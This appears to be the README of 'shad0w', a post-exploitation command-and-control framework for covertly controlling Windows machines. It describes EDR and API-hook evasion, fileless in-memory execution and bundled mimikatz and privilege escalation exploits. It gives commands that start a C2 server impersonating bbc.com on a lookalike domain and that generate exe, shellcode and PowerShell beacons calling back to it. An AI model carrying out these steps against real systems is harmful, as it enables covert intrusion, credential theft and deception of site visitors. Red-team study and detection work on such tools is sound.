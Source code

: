 # shad0w

[![Project Status](https://img.shields.io/badge/status-BETA-yellow?style=flat-square)]()

shad0w is a post exploitation framework designed to operate covertly on heavily monitored environments

### Features

#### C2 Server

- Secure communication over HTTPS.
- Clone and live proxy any website, making the C2 fully browsable.

#### Beacons

- Staged and static beacons
- Shellcode and powershell formats allow for completely fileless attacks
- Uses native windows syscalls
- Bypasses userland API hooking
- Blocks EDR from loading DLLs into its process
- Can execute .NET assemblies, EXEs, DLLs, VBS, JS or XSL files completely in memory
- Common privilege escalation exploits built in
- Interact with the file system
- Configurable C2 callback jitter

#### Modules

- [GhostPack](https://github.com/GhostPack)
- [mimikatz](https://github.com/gentilkiwi/mimikatz)
- [SharpSocks](https://github.com/nettitude/SharpSocks)

### Coming Soon

- Unmanaged powershell
- Syscalls for older versions of windows
- Kernel mode capability
- More privilege escalation exploits
- Ghost in the logs integration
- UAC bypasses
- Persistence
- 32 bit support
- More beacon formats

### Install

To install shad0w run the two commands below, making sure you already have docker installed on your system.

    $ git clone --recurse-submodules https://github.com/bats3c/shad0w.git && cd shad0w
    $ sudo ./shad0w install

### Usage

#### C2

To start the C2 server and have it listening for connections you can use the command.

    $ shad0w listen -e <endpoint>

Where the `<endpoint>` is the IP address or domain name the C2 will be listening on. SSL certificates will also be dynamically generated.

To use the website mirroring functionality you can use the `-m` or `--mirror` flag

    $ shad0w listen -e www.bbc-news.com -m "https://www.bbc.com/"

This will mean that if the C2s address of `www.bbc-news.com` is visited the content of `https://www.bbc.com/` will be retrieved and returned. This is also true for any links on the cloned website. If the person browsing the C2 navigated to `https://www.bbc-news.com/sport/football/52799575` the content at `https://www.bbc.com/sport/football/52799575` would be mirrored.

#### Beacons

*Only 64 bit beacons are currently supported*

There are two types of beacons, `secure` and `insecure`. Secure beacons have all the mitigation and evasions techniques built in such syscalls and anti dll injection. These secure beacons are designed to work on the lastest versions of windows.

The insecure beacons are designed to work on a wide variety of windows versions but are designed to be used in situations where detection does not matter.

The syntax for beacon generation.

    $ shad0w beacon -p <payload> -H <c2 address> -f <format> -o <filename>

The format for payloads follows the following syntax

    <arch>/<os>/<secure>/<static>

So to generate a static 64 bit secure windows beacon it would be

    x64/windows/secure/static

Although it is recommended to use staged beacons so the command to generate a staged secure beacon in EXE format would be

    $ shad0w beacon -p x64/windows/secure -H www.bbc-news.com -f exe -o beacon.exe

Or for an insecure beacon it would be

    $ shad0w beacon -p x64/windows -H www.bbc-news.com -f exe -o beacon.exe

There are currently 3 different beacon formats; exe, shellcode and powershell
The `-f` flags is used to control the different formats of the beacons.

To generate a beacon in shellcode or powershell format you can use the `raw` or `psh` value respectively 

    $ shad0w beacon -p x64/windows/secure -H www.bbc-news.com -f raw -o beacon.bin

    $ shad0w beacon -p x64/windows/secure/static -H www.bbc-news.com -f psh -o beacon.ps1

#### Interface

To get a list of commands you can use the `help` command

    shad0w ≫ help

To get a list of active beacons you can use the `beacons` command

    shad0w ≫ beacons

To interact with a beacon use the `beacons` command with the `-i` flag specifying the beacon id

    shad0w ≫ beacons -i 1

### Credits

- [JUMPSEC](https://www.jumpsec.com/) (for just generally being awesome)
- [The Wover](https://twitter.com/TheRealWover) (cause donut is so good)
